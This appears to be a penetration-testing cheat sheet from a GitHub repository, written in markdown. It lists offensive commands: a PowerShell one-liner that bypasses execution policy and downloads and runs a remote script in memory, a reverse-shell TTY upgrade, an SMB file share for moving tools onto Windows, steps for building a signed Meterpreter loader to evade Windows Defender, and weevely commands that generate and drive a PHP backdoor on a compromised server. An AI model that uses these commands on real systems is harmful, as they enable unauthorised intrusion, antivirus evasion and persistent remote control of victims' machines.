 # Table of contents
* [PowerShell](#powershell)
  * [To load a PS module into the memory](#to-load-a-ps-module-into-the-memory)
* [Utils](#utils)
  * [Shell to TTY](#shell-to-tty)
  * [Sharing files with Windows machine](#sharing-files-with-windows-machine)
* [PrivEsc on Windows](#privesc-on-windows)
  * [Bypassing Windows Defender](#bypassing-windows-defender)

# PowerShell
## To load a PS module into the memory
```powershell
powershell.exe -exec bypass -Command “IEX (New-Object Net.WebClient).DownloadString($URL);"
# Here call the modules you want to execute, depending on the usage of what you have downloaded
```
# Utils
## Shell to TTY
```bash
python -c "import pty;pty.spawn('/bin/bash')"
Ctrl + z
stty raw -echo
fg
```
## Sharing files with Windows machine
**NOTE:** This technique is usefull also to share files with any Windows VM *(or the parent host)* 
```bash
impacket-smbserver share [path] -smb2support
```
# PrivEsc on Windows
## Bypassing Windows Defender
There're a [usefull scripts](https://astr0baby.wordpress.com/2019/01/26/custom-meterpreter-loader-in-2019/), from **Astr0baby's blog**, just copy-paste them. 

**NOTE:** There're some replaces needed in the listener.sh script:

1. *Line 12:* remove the ./ from the call to msfconsole
2. *Line 16:* add -job after the run sentence

```bash
./msf-loader.sh
# introduce LHOST
# introduce LPORT
# domain to impersonate?
# The process should have created a 'payload.exe' and also 'payload-signed.exe'
./listener.sh
# Define the LHOST
# Define the LPORT
# Now the payload shall be ran into the target
```

# WebApplication Hacking
## Create a PHP Backdoor shell
The software named **weevely** will help on this matter. It's a software that crates the php file to upload to the exploited
server.

```bash
# Generate new agent
weevely generate <password> <path>
# Run terminal or command on the target
weevely <URL> <password> [cmd]
# Recover an existing session
weevely session <path> [cmd]
```
